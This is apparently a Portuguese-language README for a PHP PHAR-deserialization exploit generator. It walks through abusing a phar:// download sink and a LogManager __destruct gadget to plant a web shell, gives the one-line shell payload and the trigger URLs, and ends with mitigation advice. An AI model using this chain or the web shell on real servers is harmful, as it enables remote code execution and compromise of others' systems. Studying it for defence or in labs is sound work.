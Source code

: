 # Exploit: Desserialização Insegura via PHAR Upload

Este script (`generate_phar.php`) cria um arquivo PHAR malicioso para explorar uma vulnerabilidade de Desserialização Insegura em aplicações PHP. O objetivo é realizar um upload de arquivo que, ao ser processado por uma funcionalidade vulnerável (como um download), escreve um _web shell_ em um diretório acessível, resultando em Execução Remota de Código (RCE).

## Análise da Vulnerabilidade

A exploração se baseia na combinação de duas condições em uma aplicação PHP:

1.  **Um "Sink" de Arquivo:** A existência de uma função de sistema de arquivos (como `file_get_contents`, `filesize`, `readfile`, `file_exists`, etc.) que opera em um caminho de arquivo controlado pelo usuário.
2.  **Um "Gadget Chain":** A presença de uma ou mais classes no código da aplicação que, quando desserializadas, podem ser abusadas para realizar ações inesperadas através de seus "métodos mágicos" (ex: `__destruct`, `__wakeup`).

### O Gatilho: Wrapper `phar://`

O núcleo da vulnerabilidade reside em como o PHP lida com arquivos PHAR (PHP Archive). Quando qualquer função de sistema de arquivos tenta acessar um arquivo usando o wrapper `phar://`, o PHP automaticamente lê os metadados do arquivo PHAR.

Esses metadados são armazenados em um formato serializado. Ao lê-los, o PHP **desserializa** os dados, o que significa que ele recria os objetos PHP que estavam armazenados ali. Se um atacante puder controlar o conteúdo desses metadados, ele pode instanciar objetos de classes arbitrárias que existem no escopo da aplicação.

No código-alvo, a funcionalidade de download é o nosso **Sink**:

```php
// ...
if (strpos($file,'phar://')===0) {
    $path = $file;
}
// ...
header('Content-Length: '.filesize($path)); // <-- GATILHO
readfile($path);                           // <-- GATILHO
```


A aplicação explicitamente confia e processa caminhos com `phar://`. Quando `filesize()` ou `readfile()` são chamados em um caminho como `phar://path/to/uploaded/file.jpg`, a desserialização é acionada.

### O Gadget Chain: A Classe `LogManager`

Um "gadget" é uma classe que possui métodos mágicos que podem ser abusados. Neste cenário, a classe `app\classes\LogManager` é o nosso gadget perfeito.

```php
class LogManager
{
    public $path = '/tmp/';
    public $file = 'log.txt';
    public $content;

    // ...

    public function __destruct()
    {
        file_put_contents($this->path . $this->file, $this->content);
    }
}
```

O método mágico chave aqui é o `__destruct()`. Ele é executado automaticamente quando um objeto dessa classe é destruído (por exemplo, no final da execução de um script). A função `file_put_contents` dentro dele escreve um arquivo no servidor.

Crucialmente, as propriedades `$path`, `$file` e `$content` são públicas. Isso significa que, ao criar o objeto `LogManager` para ser desserializado, um atacante pode controlar **todos os três argumentos** da função `file_put_contents`, nos dando uma capacidade de **escrita de arquivo arbitrária**.

## Estratégia de Exploração

O ataque ocorre em três etapas:

1.  **Geração do Payload:** Executamos o script `generate_phar.php`. Ele faz o seguinte:

    - Cria um novo arquivo PHAR (`payload.phar`).
    - Instancia um objeto da classe `app\classes\LogManager`.
    - Define as propriedades do objeto:
      - `$path`: O caminho no servidor para o diretório de uploads (ex: `/var/www/html/uploads/`).
      - `$file`: O nome do nosso web shell (ex: `revshell.php`).
      - `$content`: O código do nosso web shell (ex: `<?php system($_GET["cmd"]); ?>`).
    - Armazena este objeto malicioso e configurado nos metadados do arquivo PHAR.

2.  **Upload do Payload:** A aplicação possui uma funcionalidade de upload de imagens. Nós fazemos o upload do nosso `payload.phar`, mas o renomeamos para uma extensão de imagem permitida (ex: `payload.jpg`) para contornar validações de tipo de arquivo. O servidor armazena o arquivo, por exemplo, em `/var/www/html/uploads/payload.jpg`.

3.  **Ativação do Payload:** Fazemos uma requisição para a funcionalidade de download vulnerável, usando o wrapper `phar://` para apontar para o nosso arquivo recém-enviado:

    ```
    [https://vulnerable-app.com/download.php?f=phar://uploads/payload.jpg](https://vulnerable-app.com/download.php?f=phar://uploads/payload.jpg)
    ```

    O servidor tenta ler o arquivo. O `filesize()` aciona o wrapper `phar://`, que por sua vez desserializa o objeto `LogManager` dos metadados. Ao final da requisição, o método `__destruct` é chamado, e nosso web shell é escrito em `/var/www/html/uploads/revshell.php`.

4.  **Execução de Código:** Agora, basta acessar o shell para executar comandos no servidor:

    ```
    [https://vulnerable-app.com/uploads/revshell.php?cmd=whoami](https://vulnerable-app.com/uploads/revshell.php?cmd=whoami)
    ```

## Como Usar o Script Gerador

1.  Certifique-se de que seu ambiente PHP CLI tem a extensão `phar` habilitada e `phar.readonly` está desativado no `php.ini` (o script tenta fazer isso em tempo de execução com `ini_set`).
2.  Ajuste as variáveis no script, principalmente `$web_shell_path`, para o caminho absoluto correto do diretório de uploads do alvo.
3.  Execute o script: `php generate_phar.php`.
4.  O arquivo `payload.phar` será criado no mesmo diretório.

## Mitigação da Vulnerabilidade

- **Não confie em input do usuário:** Nunca passe caminhos de arquivo controlados pelo usuário diretamente para funções de sistema de arquivos.
- **Desabilitar `phar://`:** Se não for essencial para a aplicação, desabilite o wrapper `phar://` no `php.ini`.
- **Verificação de Assinatura:** Para aplicações que precisam usar PHARs, implemente uma verificação de assinatura para garantir que os arquivos não foram adulterados.
- **Sanitização de Uploads:** Não confie apenas na extensão do arquivo. Verifique o conteúdo real do arquivo (ex: usando `getimagesize` para imagens) para garantir que não é um PHAR disfarçado.

<!-- end list -->
